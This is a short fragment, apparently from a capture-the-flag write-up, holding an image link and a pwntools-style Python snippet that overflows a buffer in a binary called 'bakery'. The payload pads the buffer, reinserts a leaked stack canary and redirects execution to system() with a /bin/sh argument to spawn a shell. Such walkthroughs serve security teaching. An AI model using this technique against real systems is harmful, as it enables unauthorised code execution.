 ```py

pld = b"A"*32 # pad choice buffer
pld += p32(canary) 
pld += b"B"*12          # pad junk until system parameter
pld += p32(0x804860c)   # system call @ bakery
pld += p32(sh)          # /bin/sh string 

p.sendline(pld)
p.interactive()
```

